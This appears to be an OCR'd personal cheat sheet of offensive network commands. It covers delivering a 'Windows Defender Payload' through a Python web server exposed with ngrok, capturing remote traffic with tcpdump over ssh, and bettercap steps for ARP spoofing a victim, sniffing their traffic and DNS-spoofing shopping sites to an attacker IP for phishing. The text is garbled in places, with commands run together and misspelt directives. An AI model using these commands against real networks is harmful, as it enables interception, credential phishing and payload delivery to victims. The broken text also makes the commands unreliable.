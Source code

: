 ----------------------------------------------[Windows Defender Payload] -----------------------------------]
[dsviper] 
enter info
create python server to deliver payload 

---------------------------max------------------------QUICK-WEBSERVER-----------------------------------------------


python3 -m http.serversudo apt install ./discord.deb
function Main() {
	python -m http.server 9999
	ngrok http 9999
	
}

---------------------------max------------------------[PCAP-TCP-DUMP]-----------------------------------------------

ssh -T frank@192.168.1.131 "sudo timeout 60 tcpdump -i wlan0 \"not port 22 and not host localhost\" -w - " > tcp_dump1.pcap
[specifies not to use 'local host' or port 22'. time out is at 60 seconds

------------------------------------------------------[MITM-MAN-IN-THE-MIDDLE]-------------------------------------------

[arp-spoof] victim convisnced they are  talking to server, but the spoof server is listening  in  the midle]

mitmweb [HAS NICE GUI]

[bettercap - GUI ]:
sudo bettercap -caplet http-ui 
 
* net.probe on [shows whos on the network]
* net.show [gives list of MAC and IP in graph]
* set arp.spoof.targets [192.xxx]
* arp.spoof on 
* net.sniff on [tells attacker what the victim is doing [inbound and out bound] 
* set dns.spoof.domains myebay.com [redirects to APACHE config]


* set arp.spoof.targets 192.168.1.10 [sets  spoof to victim]
* set arp.spoof.fullduplex true [sets attack to victim and  host]
* set arp.spoof.targets 192.victim_ip(IP address of the target Device)
* arp.spoof on

* Vset net.sniff.local true
* net.sniff on

--------------------------------------------------- [ARP & SPOOF- Capture + REDIRECT TRAFFIC MITM] --------------------------------------
[bettercap] --->> This will capure all websies visited by the target. 
* arp.spoof.targets 192.victim_ip
* arp.spooof enable forwarding
* net.sniff on
----------------[REDIRECT TRAFFIC] ---- (Phishing) 
* net.sniff off
* dns.spoof myamazon.com -> 192.attacker_ip
--------------------------------------------------- FIND IP FROM DOMAIN --------------------------------------
